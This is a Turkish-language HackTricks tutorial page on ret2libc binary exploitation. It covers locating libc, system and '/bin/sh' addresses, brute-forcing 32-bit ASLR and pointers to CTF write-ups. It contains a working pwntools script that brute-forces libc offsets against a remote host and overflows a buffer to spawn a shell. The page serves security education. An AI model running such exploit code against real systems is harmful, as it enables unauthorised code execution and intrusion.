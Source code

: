 # Ret2lib

{% hint style="success" %}
AWS Hacking'ı öğrenin ve uygulayın: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitimi AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'ı öğrenin ve uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitimi GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'ı Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarını paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## **Temel Bilgiler**

**Ret2Libc**'nin özü, zayıf bir programın yürütme akışını, saldırgan tarafından sağlanan shellcode'ın yığında yürütülmesi yerine, paylaşılan bir kütüphane içindeki bir işlevine yönlendirmektir (örneğin, **system**, **execve**, **strcpy**). Saldırgan, geri dönüş adresini değiştiren bir yük oluşturur ve yığında istenen kütüphane işlevine işaret ederken, aynı zamanda çağrı konvansiyonuna göre doğru şekilde ayarlanmış herhangi gerekli argümanın da olmasını sağlar.

### **Örnek Adımlar (basitleştirilmiş)**

* Çağrılacak işlevin adresini alın (örneğin, system) ve çağrılacak komutu (örneğin, /bin/sh)
* İlk argümanı komut dizinine işaret edecek şekilde ve yürütme akışını işleve geçirecek şekilde ROP zinciri oluşturun

## Adresleri Bulma

* Kullanılan `libc`'nin mevcut makineden olanın nerede bellekte yükleneceğini aşağıdaki komutla bulabilirsiniz:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Eğer ASLR'ın libc adresini değiştirip değiştirmediğini kontrol etmek istiyorsanız şunu yapabilirsiniz:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Kullanılan libc bilindiğinde, `system` işlevine olan ofseti bulmak da mümkündür:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Kullanılan libc bilindiğinde, `/bin/sh` dizesinin işlevine olan ofseti bulmak da mümkündür:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### gdb-peda / GEF Kullanımı

Kullanılan libc bilindiğinde, **system** fonksiyonunun, **exit** fonksiyonunun ve **`/bin/sh`** dizesinin adresini almak için Peda veya GEF kullanmak da mümkündür:
```bash
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps Kullanımı

Eğer işlem her seferinde sizinle iletişim kurduğunda (**network server**), o dosyayı **okumaya** çalışın (muhtemelen root olmanız gerekecektir).

Burada işlem içinde **libc'nin tam olarak nerede yüklendiğini** ve işlemin her çocuğu için **nerede yükleneceğini** bulabilirsiniz.

![](<../../../.gitbook/assets/image (853).png>)

Bu durumda **0xb75dc000** adresine yüklendi (Bu, libc'nin taban adresi olacaktır)

## Bilinmeyen libc

Binary'nin yüklediği libc'yi **bilmediğiniz** olabilir (çünkü erişiminiz olmayan bir sunucuda olabilir). Bu durumda, zafiyeti **bazı adresleri sızdırarak ve hangi libc** kütüphanesinin kullanıldığını bulabilirsiniz:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

Ve bunun için bir pwntools şablonunu şurada bulabilirsiniz:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

### 2 ofset ile libc'yi bilmek

[https://libc.blukat.me/](https://libc.blukat.me/) sayfasını kontrol edin ve libc içindeki fonksiyonların **bir çift adresini** kullanarak **kullanılan sürümü** bulun.

## 32 bit ASLR'yi atlatma

Bu kaba kuvvet saldırıları **yalnızca 32 bit sistemler** için kullanışlıdır.

* Saldırı yerel ise, libc'nin taban adresini kaba kuvvetle deneyebilirsiniz (32 bit sistemler için kullanışlıdır):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Uzak bir sunucuyu hedef alıyorsanız, `libc` fonksiyonu `usleep`'in adresini **10** (örneğin) argümanı olarak geçerek **brute-force** yöntemini deneyebilirsiniz. Eğer sunucu cevap vermek için **10 saniye daha fazla zaman alıyorsa**, bu fonksiyonun adresini buldunuz demektir.

## Tek Gadget

Yalnızca **bir** belirli **adrese** atlayarak bir kabuk çalıştırın libc içinde:

{% content-ref url="one-gadget.md" %}
[one-gadget.md](one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Kod Örneği

Bu örnekte ASLR brute-force kod içine entegre edilmiş ve zafiyetli ikili dosya uzak bir sunucuda bulunmaktadır:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Kod Örneği

Örneği kontrol etmek için:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

## ARM64 Ret2lib Örneği

ARM64 durumunda, ret komutu x30 kaydının işaret ettiği yere atlar ve yığın kaydının işaret ettiği yere değil. Bu nedenle biraz daha karmaşıktır.

Ayrıca ARM64'te bir komut, ne yapması gerekiyorsa onu yapar (komutların ortasına atlayıp onları yeni komutlara dönüştürmek mümkün değildir).

Örneği kontrol etmek için:

{% content-ref url="ret2lib-+-printf-leak-arm64.md" %}
[ret2lib-+-printf-leak-arm64.md](ret2lib-+-printf-leak-arm64.md)
{% endcontent-ref %}

## Printf'e Ret

Bu, `printf`/`puts`'ı belirli bir veriyle bir argüman olarak çağırarak işlemdeki bilgileri sızdırmayı sağlar. Örneğin, GOT'taki `puts` adresini bir `puts` çalıştırmasına yerleştirmek, bellekteki `puts` adresini sızdıracaktır.

## Ret2printf

Bu temelde bir `Ret2lib`'i `printf` format dizesi açığına dönüştürmek için `ret2lib`'i kullanarak `printf`'i çağırmak ve sömürmek için değerlerle kullanmaktır (anlamsız gibi görünse de mümkündür):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Diğer Örnekler ve Referanslar

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, libc'teki bir işlevin adresine sızıntı verildiğinde, tek bir araç kullanarak
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bit, ASLR etkin ancak PIE yok, ilk adım bir taşma oluşturup canary'nin 0x00 baytına kadar doldurmak ve ardından puts'u çağırıp sızdırmaktır. Canary ile puts'un GOT'tan adresini sızdırmak için bir ROP aracı oluşturulur ve ardından `/bin/sh` adresiyle `system('/bin/sh')` çağırmak için bir ROP aracı oluşturulur.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bit, ASLR etkin, canary yok, ana fonksiyonda bir çocuk fonksiyondan yığın taşması. Puts'u çağırmak için ROP aracı oluşturup GOT'tan puts'un adresini sızdırmak ve ardından bir araç çağırmak.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 bit, pie yok, canary yok, relro yok, nx. Write işlevini kullanarak write'un adresini (libc) sızdırmak ve tek bir araç çağırmak için kullanır.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html)
* Yığın üzerinden canary'yi sızdırmak için bir format dizesi kullanır ve sistem çağrısına (GOT'ta) `/bin/sh` adresiyle birlikte bir taşma oluşturmak için bir aşırı taşma kullanır.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html)
* 32 bit, relro yok, canary yok, nx, pie. Bir kötü dizinlemeyi kötüye kullanarak yığından libc ve heap adreslerini sızdırmak. Bir taşma oluşturmak için bir ROP aracı kullanarak `system('/bin/sh')` çağrısı yapar (bir kontrolü atlamak için heap adresine ihtiyaç vardır).
